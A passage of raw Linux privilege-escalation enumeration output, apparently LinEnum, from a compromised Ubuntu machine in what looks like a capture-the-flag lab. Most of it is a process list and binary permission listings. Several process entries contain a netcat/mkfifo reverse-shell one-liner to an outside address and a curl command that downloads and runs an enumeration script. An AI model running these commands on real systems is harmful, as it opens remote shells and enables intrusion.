root        31  0.0  0.0      0     0 ?        S    Aug26   0:00 [ecryptfs-kthrea]
root        47  0.0  0.0      0     0 ?        S<   Aug26   0:00 [kthrotld]
root        48  0.0  0.0      0     0 ?        S<   Aug26   0:00 [acpi_thermal_pm]
root        49  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        50  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        51  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        52  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        53  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        54  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        55  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        59  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        60  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        61  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        62  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        63  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        64  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        65  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        66  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        67  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        68  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        69  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        70  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        71  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        72  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root        73  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_0]
root        74  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_0]
root        75  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_1]
root        76  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_1]
root        81  0.0  0.0      0     0 ?        S<   Aug26   0:00 [ipv6_addrconf]
root        95  0.0  0.0      0     0 ?        S<   Aug26   0:00 [deferwq]
root        96  0.0  0.0      0     0 ?        S<   Aug26   0:00 [charger_manager]
root       587  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_2]
root       589  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_2]
root       591  0.0  0.0      0     0 ?        S<   Aug26   0:00 [ttm_swap]
root       594  0.0  0.0      0     0 ?        S<   Aug26   0:00 [vmw_pvscsi_wq_2]
root       747  0.0  0.0      0     0 ?        S<   Aug26   0:00 [kpsmoused]
root      1022  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_3]
root      1024  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_3]
root      1030  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_4]
root      1032  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_4]
root      1038  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_5]
root      1044  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_5]
root      1045  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_6]
root      1046  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_6]
root      1047  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_7]
root      1048  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_7]
root      1049  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_8]
root      1050  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_8]
root      1051  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_9]
root      1052  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_9]
root      1053  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_10]
root      1054  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_10]
root      1055  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_11]
root      1056  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_11]
root      1057  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_12]
root      1058  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_12]
root      1059  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_13]
root      1060  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_13]
root      1061  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_14]
root      1062  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_14]
root      1063  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_15]
root      1064  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_15]
root      1065  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_16]
root      1066  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_16]
root      1067  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_17]
root      1068  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_17]
root      1069  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_18]
root      1070  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_18]
root      1071  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_19]
root      1072  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_19]
root      1073  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_20]
root      1074  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_20]
root      1075  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_21]
root      1076  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_21]
root      1077  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_22]
root      1078  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_22]
root      1079  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_23]
root      1080  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_23]
root      1081  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_24]
root      1082  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_24]
root      1083  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_25]
root      1084  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_25]
root      1085  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_26]
root      1086  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_26]
root      1087  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_27]
root      1088  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_27]
root      1089  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_28]
root      1090  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_28]
root      1091  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_29]
root      1092  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_29]
root      1093  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_30]
root      1094  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_30]
root      1095  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_31]
root      1096  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_31]
root      1097  0.0  0.0      0     0 ?        S    Aug26   0:00 [scsi_eh_32]
root      1098  0.0  0.0      0     0 ?        S<   Aug26   0:00 [scsi_tmf_32]
root      1129  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root      1130  0.0  0.0      0     0 ?        S<   Aug26   0:00 [bioset]
root      1301  0.0  0.0      0     0 ?        S<   Aug26   0:00 [kworker/0:1H]
root      1325  0.0  0.0      0     0 ?        S    Aug26   0:06 [jbd2/sda1-8]
root      1326  0.0  0.0      0     0 ?        S<   Aug26   0:00 [ext4-rsv-conver]
root      1354  0.0  0.0      0     0 ?        S    Aug26   0:00 [kauditd]
root      1361  0.0  0.6  37052  7008 ?        Ss   Aug26   0:06 /lib/systemd/systemd-journald
root      1392  0.0  0.2  45844  2532 ?        Ss   Aug26   0:05 /lib/systemd/systemd-udevd
systemd+  1607  0.0  0.2 102384  2224 ?        Ssl  Aug26   0:54 /lib/systemd/systemd-timesyncd
root      2974  0.0  0.2  36076  2064 ?        Ss   Aug26   0:08 /usr/sbin/cron -f
root      2978  0.0  0.1   4400  1128 ?        Ss   Aug26   0:00 /usr/sbin/acpid
root      2981  0.4  0.5 194072  5668 ?        Ssl  Aug26  37:24 /usr/bin/vmtoolsd
root      2983  0.0  0.1  28692  2028 ?        Ss   Aug26   0:03 /lib/systemd/systemd-logind
whoopsie  2988  0.0  0.5 378472  5116 ?        Ssl  Aug26   0:00 /usr/bin/whoopsie -f
syslog    3004  0.0  0.2 256400  2460 ?        Ssl  Aug26   0:00 /usr/sbin/rsyslogd -n
root      3024  0.0  0.2 337392  2876 ?        Ssl  Aug26   0:00 /usr/sbin/ModemManager
root      3033  0.0  0.5 298360  5284 ?        Ssl  Aug26   0:13 /usr/lib/accountsservice/accounts-daemon
root      3046  0.0  0.4 341076  4500 ?        Ssl  Aug26   0:05 /usr/lib/snapd/snapd
message+  3049  0.0  0.3  44188  3224 ?        Ss   Aug26   0:01 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root      3089  0.0  0.4 388760  4748 ?        Ssl  Aug26   0:03 /usr/sbin/NetworkManager --no-daemon
avahi     3094  0.0  0.2  44912  2348 ?        Ss   Aug26   0:03 avahi-daemon: running [sun.local]
avahi     3114  0.0  0.0  44788    32 ?        S    Aug26   0:00 avahi-daemon: chroot helper
root      3196  0.0  0.4 274824  4252 ?        Ssl  Aug26   0:00 /usr/sbin/cups-browsed
root      3207  0.0  0.7 304500  7288 ?        Ssl  Aug26   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      3221  0.0  0.7 292164  7132 ?        Ssl  Aug26   0:00 /usr/sbin/lightdm
root      3392  0.4  2.4 269916 24700 tty7     Ss+  Aug26  38:22 /usr/lib/xorg/Xorg -core :0 -seat seat0 -auth /var/run/lightdm/root/:0 -nolisten tcp vt7 -novtswitch
root      3394  0.0  0.1  23008  1480 tty1     Ss+  Aug26   0:00 /sbin/agetty --noclear tty1 linux
root      3427  0.0  0.3 228236  3176 ?        Sl   Aug26   0:00 lightdm --session-child 12 15
sun       3433  0.0  0.2  45248  2264 ?        Ss   Aug26   0:00 /lib/systemd/systemd --user
sun       3435  0.0  0.0  63480   296 ?        S    Aug26   0:00 (sd-pam)
sun       3438  0.0  0.3  53548  3296 ?        Ss   Aug26   0:00 /sbin/upstart --user
sun       3547  0.0  0.1  39928  1564 ?        S    Aug26   0:00 upstart-udev-bridge --daemon --user
sun       3554  0.0  0.2  43696  2892 ?        Ss   Aug26   0:08 dbus-daemon --fork --session --address=unix:abstract=/tmp/dbus-RmzF56JNG9
sun       3566  0.0  0.2  93416  2492 ?        Ss   Aug26   0:00 /usr/lib/x86_64-linux-gnu/hud/window-stack-bridge
sun       3585  0.0  0.3 212260  3244 ?        Sl   Aug26   0:00 gnome-keyring-daemon --start --components pkcs11,secrets
sun       3607  0.0  0.9 620332 10116 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/bamf/bamfdaemon
sun       3613  0.0  0.0 173608   176 ?        Ss   Aug26   0:18 gpg-agent --homedir /home/sun/.gnupg --use-standard-socket --daemon
sun       3618  0.0  0.0  39864   132 ?        S    Aug26   0:00 upstart-dbus-bridge --daemon --system --user --bus-name system
sun       3620  0.0  0.1  48356  1212 ?        S    Aug26   0:00 upstart-file-bridge --daemon --user
sun       3625  0.0  0.3 281492  3416 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfsd
sun       3630  0.0  0.4 419960  4428 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfsd-fuse /run/user/1000/gvfs -f -o big_writes
sun       3640  0.0  0.4 353840  4404 ?        Sl   Aug26   0:00 /usr/lib/at-spi2-core/at-spi-bus-launcher
sun       3646  0.0  0.2  42900  2548 ?        S    Aug26   0:00 /usr/bin/dbus-daemon --config-file=/etc/at-spi2/accessibility.conf --nofork --print-address 3
sun       3649  0.0  0.3 206972  3356 ?        Sl   Aug26   0:00 /usr/lib/at-spi2-core/at-spi2-registryd --use-gnome-session
sun       3653  0.0  0.0  39864   112 ?        S    Aug26   0:02 upstart-dbus-bridge --daemon --session --user --bus-name session
sun       3660  0.0  0.7 365224  7224 ?        Ssl  Aug26   0:00 /usr/bin/ibus-daemon --daemonize --xim
sun       3671  0.0  0.7 579760  8068 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/hud/hud-service
sun       3673  0.0  1.0 855996 10764 ?        Ssl  Aug26   0:27 /usr/lib/unity-settings-daemon/unity-settings-daemon
sun       3682  0.0  0.5 626972  5760 ?        Ssl  Aug26   0:00 /usr/lib/gnome-session/gnome-session-binary --session=ubuntu
sun       3690  0.0  1.3 565192 13928 ?        Ssl  Aug26   0:25 /usr/lib/x86_64-linux-gnu/unity/unity-panel-service
root      3705  0.0  0.3 354196  3968 ?        Ssl  Aug26   0:00 /usr/lib/upower/upowerd
sun       3730  0.0  0.4 367332  4568 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-messages/indicator-messages-service
sun       3734  0.0  0.4 356252  4788 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-bluetooth/indicator-bluetooth-service
sun       3738  0.0  0.4 366716  4792 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-power/indicator-power-service
sun       3739  0.0  0.9 788668  9612 ?        Ssl  Aug26   0:14 /usr/lib/x86_64-linux-gnu/indicator-datetime/indicator-datetime-service
sun       3740  0.0  1.0 650952 11156 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-keyboard/indicator-keyboard-service --use-gtk
sun       3741  0.0  0.7 756548  7336 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-sound/indicator-sound-service
sun       3744  0.0  1.0 549440 10572 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-printers/indicator-printers-service
sun       3750  0.0  0.4 643420  4892 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-session/indicator-session-service
sun       3753  0.0  0.7 395940  7436 ?        Ssl  Aug26   0:00 /usr/lib/x86_64-linux-gnu/indicator-application/indicator-application-service
sun       3771  0.0  0.6 917332  6788 ?        Sl   Aug26   0:00 /usr/lib/evolution/evolution-source-registry
sun       3781  0.0  0.2 361416  2468 ?        S<l  Aug26   0:00 /usr/bin/pulseaudio --start --log-target=syslog
rtkit     3782  0.0  0.2 183544  2148 ?        SNsl Aug26   0:07 /usr/lib/rtkit/rtkit-daemon
sun       3797  3.3  7.7 1221876 78788 ?       Ssl  Aug26 280:53 compiz
sun       3814  0.0  1.7 730608 18012 ?        Sl   Aug26   0:01 nautilus -n
sun       3815  0.0  0.7 431620  8004 ?        Sl   Aug26   0:00 /usr/lib/policykit-1-gnome/polkit-gnome-authentication-agent-1
sun       3819  0.0  0.7 577092  7548 ?        Sl   Aug26   0:00 /usr/lib/unity-settings-daemon/unity-fallback-mount-helper
sun       3820  0.0  1.0 664724 10952 ?        Sl   Aug26   0:01 nm-applet
sun       3821  0.0  7.5 982516 76848 ?        Sl   Aug26   0:13 /usr/bin/gnome-software --gapplication-service
sun       3822 63.0  6.9 960088 70652 ?        Rl   Aug26 5225:58 nodejs /home/sun/server.js
colord    3841  0.0  0.4 320584  4880 ?        Ssl  Aug26   0:00 /usr/lib/colord/colord
sun       3857  0.0  0.3 178664  3276 ?        Sl   Aug26   0:00 /usr/lib/dconf/dconf-service
sun       3871  0.0  0.5 303456  5948 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfs-udisks2-volume-monitor
root      3887  0.0  0.9 383104  9544 ?        Ssl  Aug26   0:02 /usr/lib/udisks2/udisksd --no-debug
sun       3894  0.0  0.5 284720  5244 ?        Sl   Aug26   0:00 /usr/lib/ibus/ibus-dconf
sun       3895  0.0  1.1 478672 11240 ?        Sl   Aug26   0:00 /usr/lib/ibus/ibus-ui-gtk3
sun       3898  0.0  0.7 429692  7656 ?        Sl   Aug26   0:00 /usr/lib/ibus/ibus-x11 --kill-daemon
sun       3904  0.0  0.4 208852  4932 ?        Sl   Aug26   0:00 /usr/lib/ibus/ibus-engine-simple
sun       3908  0.0  4.3 869452 44516 ?        Sl   Aug26   0:00 /usr/lib/evolution/evolution-calendar-factory
sun       3915  0.0  0.2 264600  2900 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfs-goa-volume-monitor
sun       3920  0.0  0.4 410680  4920 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfs-afc-volume-monitor
sun       3928  0.0  0.2 278788  2960 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfs-gphoto2-volume-monitor
sun       3933  0.0  0.2 266592  2548 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfs-mtp-volume-monitor
sun       3950  0.0  0.5 297004  5428 ?        Sl   Aug26   0:00 /usr/lib/gvfs/gvfsd-trash --spawner :1.5 /org/gtk/gvfs/exec_spaw/0
root      3956  0.0  2.6 635304 26452 ?        Sl   Aug26   0:07 /usr/lib/x86_64-linux-gnu/fwupd/fwupd
sun       3964  0.0  2.6 821336 26980 ?        Sl   Aug26   0:00 /usr/lib/evolution/evolution-calendar-factory-subprocess --factory contacts --bus-name org.gnome.evolution.dataserver.Subprocess.Backend.Calendarx3908x2 --own-path /org/gnome/evolution/dataserver/Subprocess/Backend/Calendar/3908/2
sun       3974  0.0  3.3 813912 33808 ?        Sl   Aug26   0:00 /usr/lib/evolution/evolution-calendar-factory-subprocess --factory local --bus-name org.gnome.evolution.dataserver.Subprocess.Backend.Calendarx3908x3 --own-path /org/gnome/evolution/dataserver/Subprocess/Backend/Calendar/3908/3
sun       3976  0.0  0.5 704400  5736 ?        Sl   Aug26   0:00 /usr/lib/evolution/evolution-addressbook-factory
sun       3983  0.0  0.6 788088  6344 ?        Sl   Aug26   0:00 /usr/lib/evolution/evolution-addressbook-factory-subprocess --factory local --bus-name org.gnome.evolution.dataserver.Subprocess.Backend.AddressBookx3976x2 --own-path /org/gnome/evolution/dataserver/Subprocess/Backend/AddressBook/3976/2
sun       4042  0.0  0.6 416996  6864 ?        Sl   Aug26   0:06 zeitgeist-datahub
sun       4049  0.0  0.0   4508   820 ?        S    Aug26   0:00 /bin/sh -c /usr/lib/x86_64-linux-gnu/zeitgeist/zeitgeist-maybe-vacuum; /usr/bin/zeitgeist-daemon
sun       4056  0.0  0.5 339968  5744 ?        Sl   Aug26   0:02 /usr/bin/zeitgeist-daemon
sun       4064  0.0  0.4 310836  4728 ?        Sl   Aug26   0:00 /usr/lib/x86_64-linux-gnu/zeitgeist-fts
sun       4122  0.0  1.1 526228 11676 ?        Sl   Aug26   0:12 update-notifier
sun       4144  0.0  0.7 522148  7588 ?        Sl   Aug26   0:00 /usr/lib/x86_64-linux-gnu/deja-dup/deja-dup-monitor
sun       4158  0.0  1.1 571420 12096 ?        Sl   Aug26   0:00 deja-dup --prompt
sun       4405  0.0  1.2 551524 12344 ?        Ssl  Aug26   0:18 /usr/lib/x86_64-linux-gnu/unity/unity-panel-service --lockscreen-mode
sun       4593  0.0  6.5 711612 66552 ?        SNl  Aug26   0:16 /usr/bin/python3 /usr/bin/update-manager --no-update --no-focus-on-map
root      6676  0.0  0.0      0     0 ?        S    10:18   0:09 [kworker/0:2]
root      7159  0.1  0.0      0     0 ?        S    12:18   0:13 [kworker/0:0]
root      7351  0.0  0.0      0     0 ?        S    13:05   0:03 [kworker/u2:0]
root      7582  0.0  0.0      0     0 ?        S    14:02   0:00 [kworker/u2:2]
sun       7634  0.0  0.0   4508   784 ?        S    14:10   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f
sun       7638  0.0  0.0   4508   840 ?        S    14:10   0:00 /bin/sh -i
sun       7660  0.0  0.5  93396  5436 ?        S    14:15   0:00 curl http://10.10.14.15/LinEnum.sh
sun       7661  0.0  0.0  19592   880 ?        S    14:15   0:00 bash
sun       7664  0.0  0.0   4508   840 ?        S    14:16   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f
sun       7668  0.0  0.0   4508   680 ?        S    14:16   0:00 /bin/sh -i
sun       7670  0.0  0.5  93396  5256 ?        S    14:16   0:00 curl http://10.10.14.15/LinEnum.sh
sun       7671  0.0  0.0  19592   912 ?        S    14:16   0:00 bash
sun       7675  0.0  0.0   4508   680 ?        S    14:17   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f
sun       7678  0.0  0.0  14516   672 ?        S    14:17   0:00 cat /tmp/f
sun       7679  0.0  0.0   4508   836 ?        S    14:17   0:00 /bin/sh -i
sun       7680  0.0  0.1  11304  1788 ?        S    14:17   0:00 nc 10.10.14.5 1234
sun       7684  0.1  0.3  20648  3980 ?        S    14:17   0:00 bash
sun       7685  0.0  0.3  20760  3700 ?        S    14:17   0:00 bash
sun       7686  0.0  0.0  14368   684 ?        S    14:17   0:00 tee -a
sun       7887  0.0  0.3  20728  3076 ?        S    14:17   0:00 bash
sun       7888  0.0  0.3  44432  3156 ?        R    14:17   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
lrwxrwxrwx 1 root root       4 Sep 19  2017 /bin/sh -> dash
-rwxr-xr-x 1 root root 1577232 Jul 12  2016 /lib/systemd/systemd
-rwxr-xr-x 1 root root  326224 Jul 12  2016 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root  618520 Jul 12  2016 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root  141904 Jul 12  2016 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root  453264 Jul 12  2016 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root   44104 May 26  2016 /sbin/agetty
lrwxrwxrwx 1 root root      20 Sep 19  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root  302920 May 19  2016 /sbin/upstart
-rwxr-xr-x 1 root root  224208 Apr  1  2016 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root  639568 Jun 21  2016 /usr/bin/gnome-software
-rwxr-xr-x 1 root root  164152 Jan 19  2016 /usr/bin/ibus-daemon
-rwxr-xr-x 1 root root   88224 Mar 21  2016 /usr/bin/pulseaudio
lrwxrwxrwx 1 root root       9 Sep 19  2017 /usr/bin/python3 -> python3.5
-rwxr-xr-x 1 root root   44528 Feb 15  2018 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   57096 Jun 16  2016 /usr/bin/whoopsie
-rwxr-xr-x 1 root root  206000 Feb 24  2016 /usr/bin/zeitgeist-daemon
-rwxr-xr-x 1 root root  164928 May 13  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root   87616 Feb 24  2016 /usr/lib/at-spi2-core/at-spi2-registryd
-rwxr-xr-x 1 root root   22520 Feb 24  2016 /usr/lib/at-spi2-core/at-spi-bus-launcher
-rwxr-xr-x 1 root root  293072 Nov  6  2015 /usr/lib/colord/colord
-rwxr-xr-x 1 root root   77896 May 27  2015 /usr/lib/dconf/dconf-service
-rwxr-xr-x 1 root root   10392 Feb 23  2016 /usr/lib/evolution/evolution-addressbook-factory
-rwxr-xr-x 1 root root   14536 Feb 23  2016 /usr/lib/evolution/evolution-addressbook-factory-subprocess
-rwxr-xr-x 1 root root   10392 Feb 23  2016 /usr/lib/evolution/evolution-calendar-factory
-rwxr-xr-x 1 root root   14536 Feb 23  2016 /usr/lib/evolution/evolution-calendar-factory-subprocess
-rwxr-xr-x 1 root root  101000 Feb 23  2016 /usr/lib/evolution/evolution-source-registry
-rwxr-xr-x 1 root root  280616 May 18  2016 /usr/lib/gnome-session/gnome-session-binary
-rwxr-xr-x 1 root root   86024 May 18  2016 /usr/lib/gvfs/gvfs-afc-volume-monitor
-rwxr-xr-x 1 root root   31912 May 18  2016 /usr/lib/gvfs/gvfsd
-rwxr-xr-x 1 root root   36384 May 18  2016 /usr/lib/gvfs/gvfsd-fuse
-rwxr-xr-x 1 root root   48752 May 18  2016 /usr/lib/gvfs/gvfsd-trash
-rwxr-xr-x 1 root root   94472 May 18  2016 /usr/lib/gvfs/gvfs-goa-volume-monitor
-rwxr-xr-x 1 root root   90208 May 18  2016 /usr/lib/gvfs/gvfs-gphoto2-volume-monitor
-rwxr-xr-x 1 root root   90088 May 18  2016 /usr/lib/gvfs/gvfs-mtp-volume-monitor
-rwxr-xr-x 1 root root  166200 May 18  2016 /usr/lib/gvfs/gvfs-udisks2-volume-monitor
-rwxr-xr-x 1 root root   19144 Jan 19  2016 /usr/lib/ibus/ibus-dconf
-rwxr-xr-x 1 root root   10696 Jan 19  2016 /usr/lib/ibus/ibus-engine-simple
-rwxr-xr-x 1 root root  206568 Jan 19  2016 /usr/lib/ibus/ibus-ui-gtk3
-rwxr-xr-x 1 root root   92824 Jan 19  2016 /usr/lib/ibus/ibus-x11
-rwxr-xr-x 1 root root   44776 Nov 21  2014 /usr/lib/policykit-1-gnome/polkit-gnome-authentication-agent-1
-rwxr-xr-x 1 root root   15048 Jan 17  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root   64808 Oct 26  2015 /usr/lib/rtkit/rtkit-daemon
-rwxr-xr-x 1 root root 9593456 Jun 29  2016 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root  352768 Apr  1  2016 /usr/lib/udisks2/udisksd
-rwxr-xr-x 1 root root   40512 Jul  1  2016 /usr/lib/unity-settings-daemon/unity-fallback-mount-helper
-rwxr-xr-x 1 root root   40280 Jul  1  2016 /usr/lib/unity-settings-daemon/unity-settings-daemon
-rwxr-xr-x 1 root root  227400 Jun 15  2016 /usr/lib/upower/upowerd
-rwxr-xr-x 1 root root  317184 Jul  1  2016 /usr/lib/x86_64-linux-gnu/bamf/bamfdaemon
-rwxr-xr-x 1 root root   23328 Apr  7  2016 /usr/lib/x86_64-linux-gnu/deja-dup/deja-dup-monitor
-rwxr-xr-x 1 root root  129232 Jun  9  2016 /usr/lib/x86_64-linux-gnu/fwupd/fwupd
-rwxr-xr-x 1 root root  583224 Apr 15  2016 /usr/lib/x86_64-linux-gnu/hud/hud-service
-rwxr-xr-x 1 root root  232976 Apr 15  2016 /usr/lib/x86_64-linux-gnu/hud/window-stack-bridge
-rwxr-xr-x 1 root root   44248 Jan 28  2015 /usr/lib/x86_64-linux-gnu/indicator-application/indicator-application-service
-rwxr-xr-x 1 root root   89840 May 26  2016 /usr/lib/x86_64-linux-gnu/indicator-bluetooth/indicator-bluetooth-service
-rwxr-xr-x 1 root root 1164880 Apr  6  2016 /usr/lib/x86_64-linux-gnu/indicator-datetime/indicator-datetime-service
-rwxr-xr-x 1 root root  139976 Nov 25  2015 /usr/lib/x86_64-linux-gnu/indicator-keyboard/indicator-keyboard-service
-rwxr-xr-x 1 root root  115048 May  5  2015 /usr/lib/x86_64-linux-gnu/indicator-messages/indicator-messages-service
-rwxr-xr-x 1 root root  168440 Jan  5  2016 /usr/lib/x86_64-linux-gnu/indicator-power/indicator-power-service
-rwxr-xr-x 1 root root   56664 Jan  4  2016 /usr/lib/x86_64-linux-gnu/indicator-printers/indicator-printers-service
-rwxr-xr-x 1 root root  373032 Apr 12  2016 /usr/lib/x86_64-linux-gnu/indicator-session/indicator-session-service
-rwxr-xr-x 1 root root  308216 Apr  7  2016 /usr/lib/x86_64-linux-gnu/indicator-sound/indicator-sound-service
-rwxr-xr-x 1 root root   77728 Jul 15  2016 /usr/lib/x86_64-linux-gnu/unity/unity-panel-service
-rwxr-xr-x 1 root root  131592 Feb 24  2016 /usr/lib/x86_64-linux-gnu/zeitgeist-fts
-rwxr-xr-x 1 root root 2402792 May 17  2016 /usr/lib/xorg/Xorg
-rwxr-xr-x 1 root root   48112 Apr  8  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   44472 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root  148080 Apr 20  2016 /usr/sbin/cups-browsed
-rwxr-xr-x 1 root root  250680 Jun 23  2016 /usr/sbin/lightdm
-rwxr-xr-x 1 root root 1079696 Nov  4  2015 /usr/sbin/ModemManager
-rwxr-xr-x 1 root root 2928824 Jul 12  2016 /usr/sbin/NetworkManager
-rwxr-xr-x 1 root root  599328 Apr  5  2016 /usr/sbin/rsyslogd


[-] /etc/init.d/ binary permissions:
total 328
drwxr-xr-x   2 root root  4096 Mar  4 15:17 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rwxr-xr-x   1 root root  2243 Feb  9  2016 acpid
-rwxr-xr-x   1 root root  5336 Apr 14  2016 alsa-utils
